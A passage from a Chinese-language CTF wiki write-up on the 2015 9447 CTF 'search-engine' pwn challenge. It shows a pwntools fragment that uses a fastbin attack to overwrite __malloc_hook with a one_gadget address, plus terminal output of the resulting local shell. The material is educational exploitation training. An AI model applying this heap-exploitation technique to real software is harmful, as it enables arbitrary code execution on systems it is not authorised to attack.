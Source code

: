 ```shell

```

那么当再次分配 b 的时候，由于此时 b 的 fd 已经被我们修改为了malloc_hook附近的地址，所以这时候我们再次分配一个 chunk，就会指向 `0x7fd798586aed`。 此后便只需要将 malloc_hook 修改为 one_gadget 地址就可以拿到 shell 了。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```

这里可能需要多选择几个 one_gadget 地址，因为 one_gadget 成功是有条件的。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

当然，这里还有一种[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)，将 chunk 分配到栈上。

## 2017 0ctf babyheap
